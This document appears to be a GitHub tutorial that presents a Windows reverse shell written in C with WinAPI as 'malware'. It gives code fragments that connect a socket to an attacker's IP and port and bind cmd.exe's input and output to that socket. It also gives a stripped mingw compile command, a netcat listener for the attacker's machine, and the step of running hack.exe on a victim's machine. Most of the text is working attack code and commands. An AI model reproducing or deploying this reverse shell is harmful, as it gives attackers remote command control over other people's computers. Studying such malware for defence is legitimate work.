



# 02-winapi

A simple windows reverse shell malware in C (using WINAPI).    

The pseudo code of a windows shell is:

- Init socket library via `WSAStartup` call    
- Create socket    
- Connect socket a remote host, port (attacker’s host)    
- start `cmd.exe`    


First of all, we use the Winsock API by including the Winsock 2 header files:    

```cpp
#include <winsock2.h>
```

And by [MSDN documentation](https://learn.microsoft.com/en-us/windows/win32/winsock/creating-a-basic-winsock-application) minimal winsock application is:    

```cpp
#include <windows.h>
#include <winsock2.h>
#include <stdio.h>

int main() {
  return 0;
}
```

Then the `WSAStartup` function initiates use of the Winsock DLL by a process:    

```cpp
// initialize socket library
WSAStartup(MAKEWORD(2, 2), &socketData);
```

then create socket and connect to remote host:    

```cpp
// create socket object
sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

addr.sin_family = AF_INET;
addr.sin_port = htons(attackerPort);
addr.sin_addr.s_addr = inet_addr(attackerIP);

// establish connection to the remote host
WSAConnect(sock, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL, NULL, NULL);
```

then we fills memory area, and setting windows properties via `STARTUPINFO` structure (`si`):    

```cpp
si.cb = sizeof(si);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE) sock;
```

Finally, the `CreateProcess` function takes a pointer to a `STARTUPINFO` structure as one of its parameters:    

```cpp
// initiate cmd.exe with redirected streams
CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
```

Compile our Windows reverse shell:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lws2_32
```

    

Prepare netcat listener on the attacker's machine:    

```bash
nc -nlvp 4444
```

    

Then run it on the victim's machine:     

```powershell
.\hack.exe
```

    


